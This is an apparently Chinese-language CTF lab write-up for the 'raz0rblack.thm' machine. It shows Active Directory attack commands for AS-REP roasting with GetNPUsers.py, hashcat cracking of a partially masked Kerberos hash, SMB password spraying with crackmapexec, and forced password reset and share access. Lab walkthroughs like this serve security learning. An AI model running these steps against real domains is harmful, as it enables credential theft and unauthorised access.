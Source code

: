 清洗数据将其保存到文件，例如：

    d-port
    dport

靶机又崩了，关键还是关不了，刚刚才续一小时，害我白等两小时

## AS-REP Roasting

我们利用GetNPUSers.py帮助我们查找关闭了预身份验证的账户

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -usersfile ./test1.txt -dc-ip 10.10.249.16 -no-pass -request raz0rblack.thm/

我们成功得到 twilliams 账户的密码hash：

    $krb5asrep$23$twilliams@RAZ0RBLACK.THM:62a647e3fdb15403ed7d57dfbc8d6fc7$b1157d696*********************70cd5a0

将该hash保存到文件, 我们再通过hascat进行爆破

    hashcat -a 0 -m 18200 ./hash /usr/share/wordlists/rockyou.txt

现在我们得到了第一组凭据

## smb密码喷洒

smb共享文件夹枚举

    smbclient -L 10.10.249.16 -U raz0rblack.thm/twilliams

无果

将twilliams从列表中删除，然后crackmapexec密码喷洒

    crackmapexec smb 10.10.249.16  -u ./test1.txt -p **********

可以看到：

    SMB         10.10.249.16    445    HAVEN-DC         [-] raz0rblack.thm\sbradley:********** STATUS_PASSWORD_MUST_CHANGE

smbpasswd.py修改密码

    python3 /usr/share/doc/python3-impacket/examples/smbpasswd.py raz0rblack.thm/sbradley:*********@10.10.249.16

## 检索smb共享

再尝试smb共享：

    smbclient //10.10.146.104/trash -U raz0rblack.thm/sbradley

    chat_log_20210222143423.txt         A     1340  Fri Feb 26 03:29:05 2021
    experiment_gone_wrong.zip           A 18927164  Tue Mar 16 14:02:20 2021
    sbradley.txt                        A       37  Sun Feb 28 03:24:21 2021

chat_log_xxxx.txt是一段对话
